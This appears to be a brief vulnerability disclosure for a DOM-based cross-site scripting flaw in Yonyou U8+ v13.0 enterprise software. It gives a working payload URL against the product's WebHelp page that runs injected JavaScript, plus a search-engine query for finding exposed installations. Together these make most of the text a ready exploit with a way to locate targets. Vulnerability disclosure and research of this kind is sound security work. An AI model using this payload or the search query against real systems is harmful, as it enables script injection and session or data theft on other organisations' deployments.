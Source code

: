 # Yonyou DOM XSS

Supplier: https://www.yonyou.com/

The version is: Yonyou U8+v13.0

Payloads：

/U8SL/WebHelp/PB_Por_zh-CN.htm?wvstest=javascript:domxssExecutionSink(1,%22%27\%22%3E%3Cxsstag%3E()locxss%22)#javascript:alert(1)

Search using bing. 

Inurl:/u8sl/WebHelp

Case 1

<img alt="image" src="https://user-images.githubusercontent.com/54017627/155440647-7841263c-fa95-43e1-a565-9d4682c56326.png">


